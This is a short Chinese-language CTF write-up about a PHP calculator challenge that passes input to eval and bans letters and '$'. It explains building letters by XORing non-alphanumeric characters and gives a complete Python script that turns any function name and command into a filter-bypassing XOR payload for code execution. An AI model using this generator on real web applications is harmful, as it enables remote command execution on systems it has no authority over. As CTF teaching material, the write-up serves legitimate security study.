

<figure>



<figcaption>

这个题目就是计算器根据提示知道是通过eval执行参数，限制了参数长度和参数不能包含字母和$。  
  
在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

</figcaption>

</figure>

所以既然是通过eval执行那么我们完全可以依靠其他字母进行异或运算得到我们想要的字符串。

比如 echo '.'^'~'; 得到的就是p

所以我们完全可以根据这得到一个webshell

下面粘贴一个python的转换代码输入函数参数就行了。

```
import requests
import urllib
import re

# 生成可用的字符
def general_rce():
    result = ''
    preg = '[a-zA-Z0-9]'
    for i in range(256):
        for j in range(256):
            if not (re.match(preg,chr(i),re.I) or re.match(preg,chr(j),re.I)):
                x = i ^ j
                if x >= 32 and x <= 126:
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    result += (chr(x) + ' ' + a + ' ' + b + '\n')
    f = open('xor_rce.txt', 'w')
    f.write(result)

# 根据输入的命令在生成的txt中进行匹配
def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
            t = f.readline()
            if t == '':
                break
            if t[0] == i:
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = ("((\"" + s1 + "\")" + "^" + "(\"" + s2 + "\"))")
    return output

def main():
    #general_rce()
    while True:
        s1 = input("\n[+] your function: ")
        if s1 == "exit":
            break
        s2 = input("[+] your command: ")
        param = action(s1) + action(s2)
        print("\n result: \n" + param)

main()
```
